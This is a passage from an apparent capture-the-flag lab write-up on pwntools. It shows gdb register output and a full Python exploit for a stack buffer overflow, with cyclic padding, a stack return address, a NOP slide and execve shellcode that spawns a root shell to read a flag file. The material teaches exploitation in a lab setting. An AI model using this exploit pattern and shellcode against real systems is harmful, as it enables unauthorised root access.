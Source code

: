
We can now store its output in a file and run it with `gdb` to check if it worked.

```
Starting program: /home/buzz/IntroToPwntools/IntroToPwntools/shellcraft/intro2pwnFinal < output
Hello There. Do you have an input for me?

Program received signal SIGTRAP, Trace/breakpoint trap.
0xffffd8f9 in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
────────────────────────────────────────────────────────────[ REGISTERS ]────────────────────────────────────────────────────────────
 EAX  0xffffd4c0 ◂— 0x61616161 ('aaaa')
 EBX  0x61616172 ('raaa')
 ECX  0xf7fc15c0 (_IO_2_1_stdin_) ◂— mov    byte ptr [eax], ah /* 0xfbad2088 */
 EDX  0xf7fc289c (_IO_stdfile_0_lock) ◂— 0
 EDI  0x0
 ESI  0xf7fc1000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1d7d8c
 EBP  0x61616173 ('saaa')
 ESP  0xffffd510 ◂— 0x90909090
 EIP  0xffffd8f9 ◂— 0x2e2a3a00
```

And this confirms we have control over the `ESP`.

Now we can exploit this program and add our shellcode to spawn a root shell.

```python
#!/usr/bin/env python

from pwn import *

proc = process('./intro2pwnFinal')
proc.recvline()

padding = cyclic(cyclic_find('taaa'))

eip = p32(0xffffd510 + 200)

nop_slide = "\x90" * 1000

shellcode =  "jhh\x2f\x2f\x2fsh\x2fbin\x89\xe3jph\x01\x01\x01\x01\x814\x24ri\x01,1\xc9Qj\x07Y\x01\xe1Qj\x08Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80"

payload = padding + eip + nop_slide + shellcode

proc.send(payload)

proc.interactive()
```

Run it and...

We are root! And can grab the file from `/root/flag.txt`
